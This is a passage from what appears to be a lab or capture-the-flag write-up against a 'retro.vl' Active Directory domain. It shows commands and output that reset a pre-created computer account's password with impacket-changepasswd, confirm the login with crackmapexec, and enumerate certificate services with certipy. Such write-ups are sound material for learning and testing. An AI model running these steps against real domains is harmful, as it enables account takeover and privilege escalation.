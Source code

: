 This is expected as we have to change the account password as the article suggests.

### Changing the password

To change the password we can use `impacket-changepasswd` script. The article also mentions using RPC over SMB as it results in errors. We can do so with the `-p rpc-samr` flag.

```
➜  retro impacket-changepasswd 'retro.vl/BANKING$':banking@10.10.106.112 -newpass Password123456 -dc-ip 10.10.106.112 -p rpc-samr
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.
```

And we can confirm that we indeed have changed the `BANKING$` account password.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'BANKING$' -p 'Password123456'         
SMB         10.10.106.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112   445    DC               [+] retro.vl\BANKING$:Password123456
```

## AD CS

### Checking if AD CS is present

What we can do next is to check whether the `retro.vl` uses Active Directory Certificate Services. We can check with `certipy`.

```
➜  retro certipy find -u 'BANKING$'@retro.vl -p Password123456 -dc-ip 10.10.106.112 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
```